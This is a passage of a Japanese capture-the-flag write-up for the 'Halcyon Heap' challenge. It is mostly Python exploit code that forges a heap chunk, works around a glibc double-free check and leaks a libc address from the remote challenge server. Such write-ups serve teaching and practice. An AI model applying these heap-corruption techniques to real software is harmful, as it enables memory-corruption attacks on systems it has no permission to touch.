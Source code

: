 ```python
payload = p64(addr_heap - 0x10)
payload += b'\x00' * 0x18
sice_deet(0x20, payload) # 2 == 1
payload = b'\x00' * 0x18
payload += p64(0x31)
sice_deet(0x20, payload) # 3 == 0
sice_deet(0x20, b"\x00" * 0x20) # 4 == 1
fake_chunk = b'\x00' * 8
fake_chunk += p64(0xff1) # size
fake_chunk += b'C' * 0x10
sice_deet(0x20, fake_chunk) # 5 == address_of(1) - 0x10

# leak libc
#destroy_deet(4)
print(observe_deet(4))
sock.interactive()
```

落ちてしまいました。
```
double free or corruption (!prev)
```

これは消そうとしている次のチャンクの`prev_inuse`フラグが0になっているからです。
したがって、いくつかチャンクを作って次の`prev_inuse`に当たる場所を0x11とか適当な値にしてやりましょう。
最後の方を次のようなコードに変更します。
```python
...
sice_deet(0x20, fake_chunk) # 5 == address_of(1) - 0x10
sice_deet(0x70, b"A" * 0x70)
sice_deet(0x70, b"A" * 0x70)
sice_deet(0x10, b"A" * 0x8 + p64(0x11))

# leak libc
destroy_deet(4)
print(observe_deet(4))
sock.interactive()
```

それっぽいアドレスが取れました。
```
$ python solve.py 
[+] Socket: Successfully connected to p1.tjctf.org:8002
[ptrlib] addr heap = 0x55cb3e6d5030
b'x\x8b\x9b\xddk\x7f\x00\x00x\x8b\x9b\xddk\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Welcome to Halcyon Heap!'
[ptrlib]$ 1. Sice a deet
2. Observe a deet
3. Brutally destroy a deet
4. Exit
>
```

